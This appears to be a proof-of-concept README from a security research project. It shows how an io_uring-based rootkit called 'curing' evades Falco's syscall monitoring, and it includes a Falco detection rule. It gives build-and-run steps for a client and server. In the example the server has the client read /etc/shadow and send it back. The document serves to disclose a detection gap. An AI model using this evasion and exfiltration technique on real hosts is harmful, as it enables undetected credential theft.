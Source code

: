 # POC bypassing Falco

As a POC, we will bypass Falco by running the latest version Falco on the machine with the following rules:

* Detect any TCP connection attempts to port 8888
* Detect access to /etc/shadow 

## Running Falco
Let's start by running Falco on the machine where `curing` is running.

To run Falco, we will use the following command:
```shell
docker run --rm -i -t --name falco --privileged  \
    -v $(pwd)/falco_custom_rules.yaml:/etc/falco/falco_rules.local.yaml \
    -v /var/run/docker.sock:/host/var/run/docker.sock \
    -v /dev:/host/dev -v /proc:/host/proc:ro -v /boot:/host/boot:ro \
    -v /lib/modules:/host/lib/modules:ro -v /usr:/host/usr:ro -v /etc:/host/etc:ro \
    falcosecurity/falco-no-driver:0.39.2 falco
```

The `falco_custom_rules.yaml` file contains the following rule to detect any TCP connection attempts to port 8888 (detecting access to `/etc/shadow` is built-in):
```yaml
- rule: TCP Connection to Port 8888
  desc: Detect any TCP connection attempts to port 8888
  condition: >
    evt.type=connect and 
    evt.dir=< and 
    fd.type=ipv4 and 
    fd.sport=8888 and 
    fd.l4proto=tcp
  output: >
    TCP connection to port 8888 detected 
    (process=%proc.name 
    command=%proc.cmdline 
    connection=%fd.name 
    container=%container.info 
    user=%user.name)
  priority: NOTICE
  tags: [network]
```

## Showing regular Falco alerts
To show that Falco is working, we ran `nc` to connect to port 8888 and access `/etc/shadow`:

https://github.com/user-attachments/assets/49560105-76e3-4972-adcf-cb325b234cbe

We can see that Falco detected the connection to port 8888 and access to `/etc/shadow` as expected.

## Bypassing Falco
To bypass Falco, we will run the `curing` client and server.
To build the `curing` client and server, we will use the following commands:
```shell
make all
```

To run the `curing` server, we will use the following command:
```shell
./build/server
```

To control the server port, edit the server.port in `cmd/config.json`, the default port is 8888.

To run the `curing` client, we will use the following command:
```shell
./build/client
```
It will read the `cmd/config.json` file to connect to the server so be sure to edit the details in the file.

For the sake of this POC, the server is just going to send one command to the client to read `/etc/shadow` and send it back to the server.
```go
commands := []common.Command{
  common.ReadFile{Id: "read shadow", Path: "/etc/shadow"},
}
```
You can edit the commands in the `pkg/server.go` file.

The `curing` rookit is using `io_uring` to connect to the server and to read the file `/etc/shadow`, this means that "0" syscalls (which are related to the attack) are made and Falco will not detect the attack.

https://github.com/user-attachments/assets/858dbc60-ffa4-445e-a354-a08caa83b102

As we can see, Falco is not detecting the attack because the attack is not using any syscalls that Falco is monitoring, of course the server ip should be non localhost to actually prove the bypass.

## Conclusion
In this POC, we bypassed Falco by using `io_uring` to connect to the server and read the file `/etc/shadow`. This means that Falco is not able to detect the attack because the attack is not using any syscalls that Falco is monitoring, this attack technique is also bypassing other security tools that are monitoring syscalls such as Tetragon by Cilium.

